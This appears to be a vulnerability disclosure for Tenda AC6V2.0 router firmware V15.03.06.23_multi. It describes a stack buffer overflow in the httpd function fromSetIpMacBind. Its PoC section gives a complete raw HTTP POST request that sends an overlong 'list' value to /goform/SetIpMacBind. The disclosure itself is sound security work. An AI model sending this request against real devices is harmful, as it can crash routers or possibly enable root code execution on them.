


### Overview

- Vendor : Tenda
- Product : AC6V2.0
- Version : Tenda AC6V2.0 V15.03.06.23_multi
- Firmware download address : https://static.tenda.com.cn/tdcweb/download/uploadfile/AC6/AC6V2.0_V15.03.06.23_multi.zip

### Vulnerability details

A vulnerability was determined in Tenda AC6V2.0 V15.03.06.23_multi. Specifically, the function fromSetIpMacBind within the httpd binary is affected. This function improperly handles user-supplied input passed through the list argument, causing a stack-based buffer overflow. By supplying an overly long string to the list parameter via a crafted HTTP request, an attacker can overwrite the return address on the stack. This vulnerability can be exploited remotely, leading to denial of service or, potentially, arbitrary code execution with root privileges.



### PoC

```
POST /goform/SetIpMacBind HTTP/1.1
Host: 192.168.0.3
Content-Length: 1653
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.3
Referer: http://192.168.0.3/mac_filter.html?random=0.48951223344220196&
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: password=uoemji
Connection: close

bindnum=1&list=AxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxeliocAxelioc
```

